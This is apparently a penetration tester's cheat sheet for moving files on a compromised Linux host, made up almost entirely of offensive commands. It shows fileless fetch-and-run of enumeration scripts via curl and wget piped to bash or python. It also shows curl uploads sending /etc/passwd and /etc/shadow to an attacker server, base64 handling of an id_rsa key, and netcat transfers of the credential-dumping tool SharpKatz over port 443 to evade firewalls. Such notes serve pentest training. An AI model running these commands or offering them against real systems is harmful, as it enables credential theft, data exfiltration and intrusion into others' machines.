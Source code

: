 ```yaml
---
title: Linux File Transer
category: Access
tags: [download, upload, wget, curl, base64]
tools: ['ftp', 'openssl', 'python']
---
```

# Linux File Transfer

## Download Operations

### Base64 Encoding / Decoding

**Check MD5 and Encode/Decode:**

```bash
# Check MD5 and encode
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

cat id_rsa |base64 -w 0;echo
---SNIP---

# Decode and check MD5
echo -n '---SNIP---' | base64 -d > id_rsa

md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```

---

### cURL / wget

Some payloads such as `mkfifo` write files to disk. Keep in  mind that while the execution of the payload may be fileless when you  use a pipe, depending on the payload chosen it may create temporary  files on the OS.

```bash
# Standard
wget https://10.0.0.10/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://host/LinEnum.sh

# Fileless
curl https://10.0.0.10/LinEnum.sh | bash
wget -qO- https://host/script.py | python3
```

---

### Download with Bash (/dev/tcp)

**Connect to the Target Webserver**:

```bash
# Connect
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print response
cat <&3
```

---

### Downloading Files Using SCP

`scp plaintext@192.168.1.10:/root/myroot.txt . `

---

## Upload Operations

### Web Upload

**Python upload server:**

```bash
# Create cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://192.168.1.10/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Alternative Web File Transfer Method

It is possible to stand up a web server using various languages. A  compromised Linux machine may not have a web server installed. In such  cases, we can use a mini web server. 

```bash
# Python3
python3 -m http.server

# python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000

# SCP
scp /etc/passwd user@192.168.1.10:/tmp/
```

---

## Miscellaneous File Transfer Methods

### File Transfer with Netcat and Ncat

> These methods can be reversed for upload to attack machine, if allowed through firewall 

Send to Compromised Machine

```bash
# Netcat
# Setup the listener on compromised host
nc -l -p 8000 > SharpKatz.exe
# Send the file
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

# Ncat
# Setup the listener on compromised host
ncat -l -p 8000 --recv-only > SharpKatz.exe
# Send the file
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

---

### Sending file as input   

```bash
# 443 is used due to firewall

# Netcat
# Sending file from attack machine
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# Receive the file
nc 192.168.49.128 443 > SharpKatz.exe

# Ncat - 443 is used due to firewall
# Sending file from attack machine
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# Receive the file
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---
